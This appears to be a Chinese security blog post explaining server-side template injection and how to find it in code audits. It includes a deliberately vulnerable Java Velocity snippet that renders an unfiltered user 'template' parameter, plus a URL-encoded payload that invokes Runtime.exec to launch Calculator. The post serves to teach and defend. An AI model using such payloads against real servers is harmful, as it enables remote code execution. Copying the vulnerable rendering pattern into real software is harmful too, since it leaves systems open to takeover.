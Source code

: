 #  SSTI 模板注入漏洞   
原创 信安魔方  锐鉴安全   2025-04-28 10:24  
  
声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
请大家关注公众号支持，不定期有宠粉福利  
  
  
Part-01  
  
    基础  
知识  
     
  
SSTI 是服务器端模板注入(Server-Side Template Injection)的英文首字母编写。模板引擎支持使用静态模板文件,在运行时用 HTML 页面中的实际值替换变量/占位符,从而让 HTML 页面的设计变得更容易。当前广泛应用的模板引擎有 Smarty、Twig、Jinja2、FreeMarker 及 Velocity 等。若攻击者可以完全控制输入模板的指令,并且模板能够在服务器端被成功地进行解析,则会造成模板注入漏洞。  
  
  
SSTI 漏洞在 Python 和 PHP 中非常常见,以至于一提起 SSTI 漏洞人们第一个想到的往往是 Python 中的 Flask。其实 SSTI 漏洞在其他语言中同样存在,如本章我们提到的Java 中的 SSTI 漏洞。下图介绍了常见模板及编程语言中,  
模板注入的常见的检测标签及可进行检测的工具如下红色框，渗透测试时，看见此特征，可尝试SSTI注入尝试。  
  
  
一般而言,SSTI 漏洞的危害有:任意代码执行,获取 SHELL,破坏服务器完整性等  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RLTNmn7FBP4aQ1vdqiby3y8A3SNNXpIiaIYyicngWfDhib89OynBEFLH0UynQykBGDeibTOBOyGvsMHpbh396OMKM6Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RLTNmn7FBP4aQ1vdqiby3y8A3SNNXpIiaIkN8x2PaUVmTQEYiavqs7FJ6ux4RKkDNBGRgkpGUp2EDf8NYvC9Ywnow/640?wx_fmt=png&from=appmsg "")  
  
  
  
Part-02  
  
SSTI漏洞发现方法  
  
  
SSTI 漏洞与模板引擎有关,那么在对 SSTI 漏洞进行代码审计时只需搜索模板引擎的关键字即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RLTNmn7FBP4aQ1vdqiby3y8A3SNNXpIiaIWt3TOztQke48vCCE6d60WWM8XQ66MNpwsnogTd7B0vk4j2WZvbVTVw/640?wx_fmt=png&from=appmsg "")  
  
通过搜索关键字,我们可以快速地找到关键代码片段。  
```
private static void velocity(String template){
Velocity.init();
VelocityContext context = new VelocityContext();
context.put("name", "QCCP");
context.put("level", "code safe");
StringWriter swOut = new StringWriter();
Velocity.evaluate(context, swOut, "test", template);
}
```  
  
  
Demo 较为简单,通读代码很容易发现其主要功能是:将从 URL 中获取 template 参数传入模板引擎进行渲染,在此过程中未对 template 做任何过滤。也就是说,这里的输入完全可控,那么我们便可以构造恶意语句使其渲染恶意代码,以达到任意代码执行的目的。  
```
template=%23set($e=%22e%22);$e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getR
untime%22,null).invoke(null,null).exec(%22open%20-a%20Calculator%22)
```  
  
  
代码执行情况。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RLTNmn7FBP4aQ1vdqiby3y8A3SNNXpIiaI70A4wLsvVzTX4fZOJF7GpuNFWLPiaoYvVQyTfPgkNnoQOicib6k3LwsQg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

